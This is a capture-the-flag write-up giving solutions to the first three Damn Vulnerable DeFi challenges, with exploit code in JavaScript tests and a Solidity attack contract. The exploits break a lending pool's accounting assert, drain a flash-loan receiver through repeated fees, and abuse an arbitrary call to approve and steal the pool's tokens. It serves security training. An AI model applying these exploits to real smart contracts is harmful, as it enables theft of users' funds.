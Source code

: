 # DamnVulnerableDefi

## Challenge #1 - Unstoppable 

To stop the pool from offering flash loans the assert statement in the flashloan function needs to be exploited. This can be done via sending
tokens to the contract by not using the depositTOken function. This way ```poolBlanace``` will never be equal to ```balanceBefore```.

Add these lines to unstopabble.challenge.js:
```
 it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await this.token.connect(attacker).transfer(this.pool.address, 1);
    });
```

## Challenge #2 - Naive receiver

To drain all ETH funds from the user's contract , the contract must borrow a flash loan 10 times so that it has to pay a fee of 1ETH everytime.
SInce there's no restriction on the flashLoan function it can be called by anyone. Calling it 10 times does the job.

Add these lines to naive-receiver.challenge.js:
``` 
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        for (let i = 0; i < 10; i++) {
            await this.pool.connect(attacker).flashLoan(this.receiver.address,0);
        }        
        
    });
```
## Challenge #3 - Truster

Create new contract _TrusterHack.sol_ 
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "./TrusterLenderPool.sol";

contract TrusterHack  {

    function hack( address _pool, address _token, uint amount) public {
        TrusterLenderPool pool = TrusterLenderPool(_pool);
        IERC20 token = IERC20(_token);

        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)", address(this), amount
        );

        pool.flashLoan(0, msg.sender, _token, data);

        token.transferFrom(_pool , msg.sender, token.balanceOf(_pool));
    }
}
```

truster.challenge.js : 
```
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */
        const _TrusterHack = await ethers.getContractFactory('TrusterHack', deployer);
        const TrusterHackContract = await _TrusterHack.deploy();

        await TrusterHackContract.connect(attacker).hack(this.pool.address, this.token.address, TOKENS_IN_POOL);        
    });
```
